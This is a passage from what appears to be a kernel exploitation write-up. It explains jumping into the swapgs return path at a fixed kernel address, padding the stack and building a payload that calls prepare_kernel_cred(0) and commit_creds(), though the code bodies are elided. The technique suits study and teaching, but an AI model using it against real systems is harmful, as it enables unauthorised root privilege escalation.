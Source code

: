 ![check-func-swap.png](images/check-func-swap.png)

A bunch of pop at the begining. Because our shellcode and instructions are limited, we can skip those pop and jump right at `0xffffffff81c00a45`, which is address of function added with `22`. Before it executes `swapgs`, it pop another registers so we need to add 1 pad chunk to make sure our registers on stack are still in the correct position:

```c
char payload[0x1000];
void generate_payload()
{
	unsigned int *p = (unsigned int *)payload;
	unsigned int i = 0;

	/////////////////////////////////////////////////////
	////// Stage 2: Execute prepare_kernel_cred(0) //////
	/////////////////////////////////////////////////////

	...

	/////////////////////////////////////////////
	////// Stage 3: Execute commit_creds() //////
	/////////////////////////////////////////////

	...

	///////////////////////////////////////////////////
```